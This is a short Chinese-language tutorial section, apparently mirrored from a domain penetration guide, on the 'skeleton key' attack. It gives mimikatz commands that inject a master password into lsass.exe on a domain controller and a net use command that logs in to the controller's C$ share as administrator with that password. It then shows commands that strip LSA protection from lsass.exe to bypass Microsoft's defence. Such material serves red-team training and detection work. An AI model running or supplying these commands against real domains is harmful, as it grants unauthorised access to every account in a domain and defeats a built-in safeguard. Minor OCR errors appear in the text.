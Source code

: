 # 5.3 skeleton key

> 原文：[https://www.zhihuifly.com/t/topic/3436](https://www.zhihuifly.com/t/topic/3436)

### 5.3 skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

#### 1、 在域控上安装 skeleton key

```
mimikatz.exe privilege::debug "misc::skeleton" 
```

![image](img/1fd7bf32b7d689f36134ce87ccbf2b30.png)

#### 2、 在域内其他机器尝试使用 skeleton key 去访问域控

添加的密码是 mimikatz

```
C:\Users\jeff1>net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\adm inistrator 
```

![image](img/c07b7016a3844de89e2fdacae4287225.png)

#### 3、 微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注 入。如果直接尝试添加 skelenton key 会失败。

适用系统:

*   windows 8.1
*   windows server 2012 及以上

![image](img/4167ac70cf59016f010550b9da2eaa3b.png)

当然 mimikatz 依旧可以绕过，命令如下:

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton 
```